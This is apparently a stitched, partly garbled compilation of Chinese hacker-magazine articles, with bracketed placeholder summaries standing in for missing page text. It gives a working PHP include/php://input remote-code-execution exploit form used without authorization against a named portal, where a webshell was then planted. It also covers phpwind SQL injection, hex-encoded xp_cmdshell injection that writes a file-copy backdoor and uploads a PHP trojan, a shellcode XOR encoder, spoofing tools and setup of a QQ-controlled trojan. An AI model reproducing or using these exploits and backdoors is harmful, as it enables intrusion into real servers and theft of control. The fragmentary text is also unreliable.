- PHP 4.3.0

描述：PHP 的 include() 函数在设计上存在缺陷，远程攻击者可利用该漏洞在 Web 权限下执行任意命令。问题在使用 POST 数据作为 include() 参数时更明显。

来源：Slythers（marc.theaimsgroup.com）

> PHP 输入/输出流（php://stdin, php://stdout, php://stderr, php://output, php://input）说明：可访问进程标准输入输出，php://output 可写入输出缓冲，php://input 可读取原始 POST 数据。

这个漏洞让作者重新看到曙光，随后结合《PHP 手册》中 php://input 的描述继续构造利用思路。

作者原先考虑从系统用户口令入手，但路径复杂，决定回到 Web 层。若 php.ini 中 allow_url_fopen=on，则 fopen/readfile/include 等函数支持远程文件读写。作者尝试通过 datfile 参数引入远程 shell 文本进行执行测试。

```php
<?=
System('ls')
?>
```

测试结果并不理想，出现网络地址解析失败、资源临时不可用等错误（详见图3）。

走到这一步后，作者认为陷入僵局：无论是从 /etc/passwd 暴力破解用户口令，还是想办法上传可被 include 的 PHP 文件，都依赖运气。随后想起一则安全公告。

> PHP Input/Output Wrapper 语言包含函数命令执行漏洞

受影响系统：

```php
<form method="post" action="$server">
server: <input type="text" name="server" size="30" value="xxxxx.tom.com"><br>
file: <input type="text" name="file" size="50" value="/script/news.php?datafile="><br>
exec: <input type="text" name="cmd" size="55" value="phpinfo();"><br>
<input type="submit" value="send">
</form>

<?
if($cmd){
  $message = "POST /".$file."php://input HTTP/1.1\r\n";
  $message .= "Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*\r\n";
  $message .= "Accept-Language: fr\r\n";
  $message .= "Content-Type: application/x-www-form-urlencoded\r\n";
  $message .= "Accept-Encoding: deflate\r\n";
  $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)\r\n";
  $message .= "Host: ".$server."\r\n";
  $message .= "Content-length: ".strlen($cmd)."\r\n";
  $message .= "Connection: Keep-Alive\r\n";
  $message .= "Cache-Control: no-cache\r\n";
  $message .= "\r\n";
  $message .= $cmd."\r\n";

  $fd = fsockopen($server,80);
  fputs($fd,$message);
  while(!feof($fd)){
    echo fgets($fd,1280);
  }
  fclose($fd);
}
?>
```

## 黑客手册——西线无战事

在本机构建的 PHP 环境中运行以上代码之后，如果顺利的话，news.php 将会通过 include($datafile) 乖乖地为我们执行“phpinfo();”这句 PHP 代码（图4）。





这回结果正如我们所愿的那样，利用这个 Exploit，我们可以让这台服务器乖乖地为我们执行任意 PHP 代码。于是 linx 很快便开始向服务器上写入 webshell.php 以获得更大的控制权（图5）。但是写入的这个 webshell.php 很快便被服务器端删除了，估计是 IDS 在发挥作用。由于这是一次未授权的测试，也只好就此罢休。我们试图联系网站管理员，希望他们能够尽快修复这个漏洞，保证 Web Server 的安全。好了，文章到此也该告一段落了，

下回见！【文中涉及的代码在光盘中有提供】

编辑部点评：我对这篇文章有时大吃一惊，tom.com 这样的门户大站竟然也可以搞定 webshell，如果继续渗透，控制整个服务器的权限都有可能。但是漏洞却是初级的、大家都可能看得懂的：一个是常规的变量未过滤，一个是公布已久的 PHP Input/Output Wrapper 远程包含函数命令执行漏洞。作者巧妙应用，双剑合璧，竟然无坚不摧。Web injection 的时代的的确确来了，但是如我一样在网上跟风、等别人公布漏洞的脚本小子们，是不是也应当像作者一样认真起来学习一下脚本编程了？

## phpwind2.0 提升权限漏洞解析

辐射鱼

Phpwind 是一款除 discuz! 之外应用最广泛的 PHP 论坛程序，前一段时间就有牛人发过 2.0.1 和 2.0.0 的漏洞，可见这套程序的安全性确实令人担忧。这次我要写的漏洞是关于 2.0.2t 版和商业的 3.3.1CE 版的。

### 一、漏洞原因

register.php 和 profile.php 中都没有对论坛提交的论坛头像做处理，导致这里可以插入任意数据。以前我写过文章说过这里有删除任意文件和跨站漏洞。其实，这里还可以进行 SQL 注射，但是必须用两个过程才能实现。首先看到 register.php 的第 148 行源码：

```php
if(!get_magic_quotes_gpc()){
  Add_S($_POST);
  Add_S($_GET);
  Add_S($_COOKIE);
}
```

这里要注意的是 $regicon 这个变量从头到尾都没有处理过，这要引用到 ezboy 发现的任意文件删除漏洞了（《非安全》的第二期）。$regicon 虽然没有过滤，但是这个 phpwind 论坛存在以下代码：

```php
$db->update("INSERT INTO pw_members (...) VALUES (...$regicon...)");
```

```php
job.php 第9行到第13行:
if($action=="delimg"){
  $imgdb=$db->get_one("SELECT icon FROM pw_members WHERE uid='$winduid'");
  if($imgdb){
    $deldb=explode('|',$imgdb['icon']);
    ...
    $db->update("UPDATE pw_members SET icon='$deldb[0]' WHERE uid='$winduid'");
  }
}
```

注意里面的这一句：`$db->update("UPDATE pw_members SET icon='$deldb[0]' WHERE uid='$winduid'");` 我们看看 `$deldb[0]` 是怎么来的？`$deldb=explode...`

## 9月 网线无战事——黑客行动

（二、漏洞利用）









> 编者点评：（右栏小块文字，对漏洞成因与学习态度进行点评。）

（上半页正文后段：继续讨论可写目录、过滤绕过与 shell 落地位置等。）

（续接第289页）

（下半页正文：讨论 ShellCode 编码避免截断问题，重点提到“\x00”与字符串函数影响，提出 XOR 编码思路。）

```asm
xor ecx, ecx              ; 清零
mov cl, 0C6h              ; 需要异或的字节个数
loop1:
inc eax                   ; 开始循环
xor byte ptr [eax], 96h   ; 96h 可选
loop loop1
```

（下半页代码后正文：说明异或值可调整，建议将 XOR 文件写入 ASM 并编译成可执行文件，附学习参考提示。）



## 后记

（后记正文：总结写作与学习建议，提供交流邮箱，列举文中工具来源说明。）

# 攻破 PHP+MSSQL 筑起的堡垒

一直以来，每当我们谈及 SQL Injection 多是关于 ASP+MSSQL 和 PHP+MYSQL，而很少涉及 PHP+MSSQL。事实上，作为 PHP 的黄金搭档，MYSQL 具有免费使用、运算快速、方便移植等特点，中小企业只需花费少许的投资，就可以搭建出一个功能强大的服务器平台，完成企业 WEB 的构建。但是当企业/政府机构需要构建一个运行稳定、数据巨大的网站时，以 MYSQL 作为后台数据就难免有点力不从心了，这个时候他们就不得不考虑到 MSSQL、ORACLE 这样成熟而功能强大的大型数据库管理系统，而 PHP 的速度和安全又深得好评，于是 PHP+MSSQL 这种比较罕见的搭配也就逐渐在企业和政府网站中露出了端倪。

然而，用安全的 PHP 脚本和功能强大的 MSSQL，真的就能轻易地构建出一个固若金汤的堡垒吗？今天，我们就来简单地会会它们。

## 一、注入测试过程

http://www.target.com 是一个以 PHP+MSSQL 构建的企业网站。现在，我们在其网站的一个 URL 参数上加一个 `'` 试试：  
http://www.target.com/index.php?type=1'，返回信息如图1所示。

看来没有过滤好 `'`，再来：  
http://www.target.com/index.php?type=1'having%201=1--，返回信息如图2所示。having 1=1 是和 GROUP BY 一起使用的一个条件判断语句。因为我们提交的数据不正确，所以返回的错误信息就会告诉我们一个表名和列名 `tb_llyd.code`。看来，PHP.ini 里的 `magic_quotes_gpc` 的功能对这样的 SQL 注射并没有发挥作用，从上面 PHP 返回的错误信息里，我们得到了当前 MSSQL 数据库中的一个表名 `tb_llyd` 和一个列名 `code`。


继续提交：  
http://www.target.com/index.php?type=1'group%20by%20tb_llyd.code--，返回信息如图3所示。

显然，`title` 便是 `tb_llyd` 表的第二个列名，再来：  
http://www.target.com/index.php?type=1'group%20by%20tb_llyd.code,tb_llyd.title%20--，结果如图4所示。

现在只需要一直这样下去，很快就能够得到 `tb_llyd` 表的所有列名。走到这里，也许有些读者开始感到疑惑了，我们注射的语句中含有 `'`（单引号），之后 `'` 被 PHP 的 `magic_quotes_gpc` 功能过滤成为 `\'`，为什么还能正常注射呢？事实上，这是由于 MYSQL 和 MSSQL 之间的不同造成的。MYSQL 把 `\`（反斜杠）作为 SQL 语句中的转义符，而 MSSQL 并没有这种功能，所以以往我们在 ASP 中为了防止 SQL 注射，用的方法是把 `'` 过滤为 `''`（两个单引号），而不是 `\'`。也就是说，在我们前面注射的 SQL 语句中，MSSQL 把 `\` 看成了一个字符串，于是注射的语句便成功执行了。

但是，当解析完 `tb_llyd` 表的所有列名后，困难也就来了：对于 PHP+MSSQL 注射时，只能在注射语句的最前面部分加入一个 `'`。如果在语句的中间、末尾加入 `'`，注射语句就会被 `magic_quotes_gpc` 的功能打乱，MSSQL 当然也就不会乖乖地为我们执行想要的 SQL 命令。这个时候，不用 `'`，我们为什么不直接调用 MSSQL 强大的存储过程呢？利用 MSSQL 强大的存储过程，我们完全能够避开使用 `'`，一口就吃掉眼前的这台企业服务器！

于是，Linx 马上构建了以下这个 SQL 注射语句：

```text
http://www.target.com/index.php?type=11;declare%20@a sysname select @a=0x... exec master.dbo.xp_cmdshell @a;--
```

```html
<form method='POST' action='http://www.target.com/manager/111.php' enctype='multipart/form-data'>
save:<input name='b' type='text' value='./cmd.php'>(设置文件后缀的保存位置)
<br>file:<input name='a' type='file'>
<input name='submit' type='submit' value='Go'>
</form>
```

其中“0x...”是“echo '<?copy($a,$b);?> > D:\\target_website\\manager\\111.php'”的十六进制码。只要把这个字符串转换成16进制，就能够避开使用单引号进行注射。Linx 写了一个简单的 PHP 脚本，可以用它来实现字符串到16进制之间的转换：

```php
<?
$a="要转换的语句(如‘net user 111 /add’)";
$num=strlen($a);
for($i=0;$i<$num;$i++)
  $s .=base_convert(ord($a[$i]),10,16)."00";
echo "0x".$s;
?>
```

而 `D:\\target_website\\manager\\` 目录是前面的 PHP 错误回显直接告诉我们的。

> 这个语句先声明一个变量 a，然后把我们的命令赋值给 a，再调用变量 a 执行我们输入的命令。变量 a 可以是任何命令。用法如下：

```sql
declare @a sysname
select @a=<command>
exec master.dbo.xp_cmdshell @a
```

以“0x”开头的十六进制格式代替了 `<command>` 的内容，绕过不能使用引号的限制。

将上面的链接提交后服务器返回信息如图5所示。


如果一切顺利的话，这个时候在 `D:\\target_website\\manager\\` 目录将会生成一个 `111.php`，里面只包含一句 PHP 代码：

```php
<?copy($a,$b);?>
```

然而这句代码已经是一个足够强大的后门了，能够用来复制文件。连线后上传任意文件。打开 http://www.target.com/manager/111.php，发现 111.php 真的已经可在线使用，于是构造表单，通过 111.php 向服务器上传一个更为强大的 WebShell。

将以上代码在本机保存为 up.htm 后双击，选择好 PHP 木马，上传（图6）。不到半分钟，一个强大的 PHP 木马便攻进了眼前这台企业服务器（图7）。


走到这步，Linx 已经对这台服务器失去了兴趣，于是运行：

```php
<?
unlink("111.php");
unlink("cmd.php");
?>
```

将刚才写入的两个后门删除，免得和它继续纠缠，hehe。


从这篇文章可以看到，和 PHP+MYSQL Injection 一样，只要我们能够避免使用引号，对 PHP+MSSQL 注射也就并非难事。MSSQL Server 自身功能强大，却让我们对它的攻击更加为所欲为。

【文章中的相关工具 up.htm 和涉及代码.txt 已收录在本期光盘】

> 作者入侵测试的这台服务器 MSSQL 应当是 sa 权限，要不然是无法成功运行文中的存储过程语句的。另外，由于是 php+mssql，所以在注入语句中应不能出现单引号，所以要把常规的注入语句进行16进制编码即可。另外，网上更新版的 nbs 注入工具在注入时已经做到了不用单引号来注射表名、列名和字段值，大家遇到 php+mssql 的时候用工具试一下也是一个不错的办法。作者用手工来完成，确实挺牛的，哈哈。

# 超级 Sniffer 工具 IP Sniffer

阿勇

到今天，Sniffer 这个名词应该不再是一个生词了，在实际应用中，大家使用最多的无非就是 Xsniffer、RawSniffer、Ethereal、Sniffer Pro。这里，我给大家介绍一款功能超级强大的 Sniffer 软件——IP Sniffer。

IP Sniffer 是由 Erwan.L 开发的一款基于包捕获的 Sniffer，主要运行在 Win2K\WinXP 平台上。除了是 GUI 程序之外，还有很多很 COOL 的特征。下面一起来看看这款强大的 Sniffer 吧。操作界面如图1所示：

啊！界面这么朴素！比起其它 Sniffer 来说，看起来的确太普通了。呵呵，大家先不要着急哦，越是厉害的角色外表就越普通，看过《天龙八部》的朋友应该知道默默无闻的扫地僧吧……白猫黑猫，逮得到老鼠的就是好猫，对吧？

从图1看到，主界面很简单，主框架上半部实时地记录被捕获的数据包的相关信息：时间、源 IP、目的 IP、协议类型、数据长度、源端口和目的端口；主界面的下部是被选择的每一数据包的16进制和解码后的内容，而主界面右边则详细地显示了每个数据包里 IP、TCP 等协议的详细字段信息。嘿嘿，是不是开始刮目相看了？

- 1）过滤规则：一个好的 Sniffer 如果没有细分的过滤功能，就不算是一个好的 Sniffer。IP Sniffer 的过滤规则相当详细，如图2所示：  
  看到没吧，可以对应用层协议、IP 层协议和 TCP/UDP 协议进行具体而细微的设置。当然，如果想普遍撒网、广收成果的话，全部不设置就可以了。

- 2）接口选择：IP Sniffer 可以根据你的需要选择使用 WinPcap 驱动库（如果你要用到 WinPcap 驱动，首先要安装至少 WinPcap 3.0）还是使用 Raw Socket 层的接口来捕获数据包。如图3所示；若选择的是 WinPcap，则得到如图4所示的接口。  
  如果选择的是 Raw 套接字，则得到如图5所示的接口。


图5

看出区别了吧！前者显示的是本地网卡名，后者显示的是本地 IP 地址。因为前者是基于网卡驱动的，而后者抓到的数据包不会有帧信息，不能接收到与 IP 同层的其它数据包，如 ARP、RARP 等等，两者在实现上和功能上都是有区别的。

- 3）协议描述：IP Sniffer 把对 Ethernet 和 IP 协议描述整合在了程序中，如图6所示。  
  这样大家在查看捕获到的数据的时候，比如看到某协议字段码 06，但又记不住对应的协议了，就不用急得满头大汗去翻书查资料了，只要点击 IP Protocols 看一看，如图7所示。  
  哦，06 原来是 TCP 协议。这样是不是方便很多呢？Ethernet 协议字段也是一样的，最下面的 Mac Address Vendor Codes 是你机子网卡生产厂商的代码。

- 4）解码能力：一般网络传输的数据都是经过加密的，解码功能就显得极为重要了，难道你看得懂一堆乱码……如图8所示：


图8

呵呵，网页代码都显示出来了，原来字符集还是 iso-8859-1 啊 ^^

除了上面这些特征外，IP Sniffer 还提供了大量（注意，我指的是“**大量**”）的工具供用户使用，那到底有哪些呢？我们一起来看吧，点开菜单的“tools”，如图9所示：


图9

哇塞，下拉菜单都一下子掉到屏幕底了，眼睛都花了，一个字——多！又一个字——强！工具这么多，我就不一个个列举了，只挑几个大家感兴趣的说明。

- 工具1：MAC 地址转换，如图10所示：


这个有什么用？呵呵，进行 IP 地址欺骗的时候就有用了。如果是校园网苦于抢 IP 的同学们，也可用于防范局域网内“网络执法官”的无理取闹了哦！

- 工具2：局域网 IP 监控，如图11所示：


图11

图表化、很直观地表示了局域网内数据包的输入与输出流量等统计信息。嗯，通过该监控工具就能知道当前时段局域网内的网络流量情况和自己本机的通信流量。如果怀疑自己主机有木马或怀疑网内有大量蠕虫病毒传播，这个监控工具能让你发现这些蛛丝马迹。不过要提醒的是注意选择正确的接口哦。

- 工具3：进程管理工具，如图12所示：


图12

跟优化大师的功能差不多，上半部分显示当前系统激活的进程 ID 和进程名，下半部分则显示指定进程的相关模块信息。要找 DLL 注入木马？常来这里看看哈。此外，还加入了进程监视功能哦，当有进程状态改变时，IP Sniffer 会实时通知你，很酷吧，如图13所示：


图13

- 工具4：DNS 查询，输入要搜索的服务器地址，然后单击 Flush，就可以看到该服务器 DNS 相关的信息了。这个有什么用？如果你要攻击某个目标网站或某台目标主机，该目标的任何信息都是很关键的，DNS 方面的信息尤为如此。如图14所示：


- 工具7：Windows 控制台的 Route Print 命令，大家都用过吧，如图17所示：


- 工具8：WinSock Hook。首先输入需要 Hook 的进程 ID，如图18所示，我 Hook 了我的 QQ 的 WinSock 通信，所得到的结果，呵呵，是不是很强呢？

- 工具9：TCP/UDP 扫描，速度超快，如图19所示。

- 工具10：IPSpoof 哄骗工具，包括了 TCP/UDP Spoof、ICMP Spoof、TCP Reset 和 NBT Name Service Spoof。  
  这下可以哄骗烦人的网络执法官，IP 欺骗我也可以，呵呵。  
  如图20、图21所示：

除了这些外，还有其它一大堆可选的好工具。由于篇幅原因，我这里就不给出截图了。而且，是好是坏，大家还是亲自用了才知道。哦，忘了说，


这款 IP Sniffer 工具很小哦，加上 WinPcap 安装程序不到 2.9M，方便携带着到处跑。又是绿色软件，不需要安装，消耗资源很小，不像 Etherpeek 和 Sniffer Pro，一开起来，就不用干其它事了。最后说一句，会用工具的人不一定是高手，不会用工具的人更不是高手，适当的时候使用适当的工具，这才是高手。呵呵……愿朋友们有所收获。（本文中涉及到的工具“IP Sniffer”在光盘中有提供）

## QQ远控精灵

随着网络的普及，给我们的工作和生活带来了极大的方便与乐趣，而即时通讯软件的广泛流行也拉近了网络用户之间的距离，所以现在 QQ 已经成为上网一族电脑中不可或缺的一款软件。可凡事都有其两面性，极度的流行可能就会感到“树大招风”，当网络用户在尽情享受 QQ 给我们的生活带来乐趣的同时，各种针对 QQ 的破坏工具给广大用户带来了诸多烦恼……


点击“发信测试”按钮对刚才的配置进行验证，如果你的信箱收到了测试邮件，则表示配置正确；否则说明配置有误，需要重新检查。最后点击“生成服务端”按钮即可生成木马的服务端程序。

就在不久之前，一款名为“QQ远控精灵”的木马吸引了大家的眼球，这是全球首个可以通过 QQ 来控制系统的木马……“QQ远控精灵”放弃了客户端程序，主要是利用 QQ 聊天来进行远程控制……今天，我就为大家演示一下这个新颖的小木马。

## 一、服务器端设置

首先从网上下载最新版的“QQ远控精灵”，下载完成后解压运行文件夹中的 QQClient，就会弹出“QQ远控精灵”的操作界面，如图1所示。


首先，我们来配置“QQ远控精灵”的服务端程序。在主界面的“输入识别代码”栏输入你喜欢的五位代码，默认是 wsdgs，这主要用于防止别人控制你的肉鸡……由于 QQ 远控精灵的操作最终都需要通过电子邮件来辅助完成……如图2所示。

## 二、控制原理

